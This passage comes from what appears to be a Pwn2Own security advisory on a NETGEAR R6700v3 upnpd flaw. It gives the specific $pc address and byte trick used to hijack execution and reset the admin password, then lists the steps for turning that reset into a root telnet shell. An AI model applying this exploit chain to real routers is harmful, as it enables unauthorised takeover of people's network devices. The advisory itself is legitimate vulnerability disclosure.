```cpp
if (case_var == 0xb6) {
	acosNvramConfig_set("http_passwd","password");
}
```
> Snippet 8: sa_processResponse() password reset

So if we set the $pc value to 0x39a48, we can reset the administrative password. 
This is possible despite 0x39a48 having a null byte (the executed address is 0x00039a50) because the Cortex A9 ARM CPU in this NETGEAR R6700v3 router is in little-endian mode. 

If in the request we replace "PPPP" with "\x48\x9a\x03", *sscanf* will add an extra null byte at the start, and the address loaded into the $pc register will be "\x48\x9a\x03\x00", or 0x00039a48. 
The router will execute the snippet above, and then will reset the password to *"password"*.

**Note:** in firmware version V1.0.4.84_10.0.58, released in 29/10/2019, the offset for resetting the password is now 0x39a58.


## Turning a password reset into a root shell

So now that we have reset the router's administrative password, *upnpd* will then die with a segmentation fault. What can we do next? Login to the administrative portal and change settings? How about a root shell? Or how about both?

NETGEAR routers have a hidden feature that allow users to start a telnet daemon in the router and obtain a root shell. This is not insecure functionality, since it only works on the LAN side, and it requires the router administrative password. 

To activate it, we send a special packet to port 23/udp with the administrative password and the MAC address of the interface receiving the packet. The router will then spawn the telnet daemon on port 23/tcp, to which we can login with the username *"admin"* and the administrative password.
This telnet enablement feature is called *telnetenable*, and it has been [well documented](https://openwrt.org/toh/netgear/telnet.console) on the Internet [for many years](https://github.com/insanid/netgear-telenetenable).

Note that **this is NOT a security vulnerability**. It is a known feature that has been present in most NETGEAR routers since at least 2010, and maybe earlier.

To conclude this advisory and our exploit, here is a summary of what we need to do:

1. Send the HTTP request as described in the previous subsection to reset the administrative password to *"password"*
2. Login to the web interface with the credentials *"admin:password"*, and change the password again.
3. Send the magic *telnetenable* packet to port 23/udp.
4. Login to the telnet daemon on port 23/tcp with the user *"admin"* and the password we set in step 3.
5. PROFIT!!!

We do not know why we need to do step 2; but without changing the password again, we cannot complete steps 3 and 4. Perhaps the password is cached somewhere?

Due to Pwn2Own time pressures, we did not have time to investigate this further and since we have achieved code execution our work ends here.
